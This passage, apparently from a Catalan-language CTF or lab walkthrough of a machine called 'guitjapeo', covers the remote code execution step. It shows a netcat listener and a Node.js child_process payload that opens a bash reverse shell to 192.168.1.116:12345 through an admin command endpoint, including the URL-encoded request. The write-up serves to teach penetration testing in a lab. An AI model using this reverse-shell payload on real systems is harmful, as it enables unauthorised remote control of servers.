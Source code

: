 ![alt text](../../../assets/images/guitjapeo/image-9.png)

## RCE

Ara com a administrador tenim accés a un altre endpoint `https://guitjapeo.thl/api/command/?cmd=clearUsers()`, sembla que podem enviar comandes amb javascript, així que preparem un netcat escoltant al port 12345 i carreguem la següent URL al navegador o mitjançant curl amb la galeta de l'usuari Administrador.

```bash
nc -lvnp 12345
```

Codifiquem l'URL amb el següent javascript

```javascript
require('child_process').exec('bash -c "/bin/bash -i >& /dev/tcp/192.168.1.116/12345 0>&1"')
```

i l'afegim a la URL com

```
https://guitjapeo

.thl/api/command/?cmd=require%28%27child_process%27%29.exec%28%27bash%20-c%20%22%2Fbin%2Fbash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.1.116%2F12345%200%3E%261%22%27%29
```

![alt text](../../../assets/images/guitjapeo/image-10.png)
